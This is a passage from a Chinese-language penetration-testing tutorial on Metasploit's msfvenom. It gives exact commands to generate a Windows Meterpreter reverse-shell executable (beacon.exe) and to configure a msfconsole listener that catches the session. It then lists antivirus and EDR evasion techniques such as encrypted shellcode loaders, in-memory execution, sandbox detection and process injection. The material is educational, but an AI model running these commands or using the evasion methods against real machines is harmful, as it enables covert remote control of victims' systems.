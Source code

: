 1.  **生成 Payload**:
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o /root/Desktop/beacon.exe
    ```

2.  **配置 `msfconsole` 监听器**:
    ```bash
    msfconsole
    use exploit/multi/handler
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST 192.168.1.100
    set LPORT 4444
    exploit
    ```

当目标机器执行 `beacon.exe` 后，`msfconsole` 中的监听器就会接收到连接，并建立 Meterpreter 会话。

## 六、免杀与规避检测

虽然 `msfvenom` 提供了编码器和模板注入等功能，但现代杀毒软件和 EDR (Endpoint Detection and Response) 系统越来越智能，仅依靠 `msfvenom` 进行免杀会越来越困难。

*   **限制**：
    *   **签名检测**：高级杀软可以识别编码后的已知 Payload 签名。
    *   **行为检测**：恶意文件在执行时的行为（如反向连接、进程注入）很快会被检测到。
*   **更高级的免杀技术**：
    *   **自定义 Shellcode Loader**：编写自己的 C/C++ 程序加载 Shellcode，而不是直接生成 EXE。
    *   **加密和混淆**：使用强加密算法对 Shellcode 进行加密，在运行时才解密执行。
    *   **进程注入/内存执行**：尽量避免将恶意代码写入磁盘。
    *   **沙箱逃逸**：检测是否在沙箱环境中运行。
    *   **利用合法进程**：将恶意逻辑注入到合法的操作系统进程中。

## 七、总结

`msfvenom` 是 Metasploit 框架中一个极其重要的工具，它为渗透测试人员提供了灵活、高效的恶意载荷生成和编码能力。无论是快速创建后门、测试特定漏洞还是尝试绕过安全防护，`msfvenom` 都是一个不可或缺的利器。然而，随着安全防护技术的不断发展，仅仅依赖 `msfvenom` 的内置编码器来进行免杀已经远远不够。要实现更高级的规避检测，需要结合其他自定义的免杀技术和对目标系统深入的理解。正确而负责地使用 `msfvenom`，是每位安全专业人士的职责。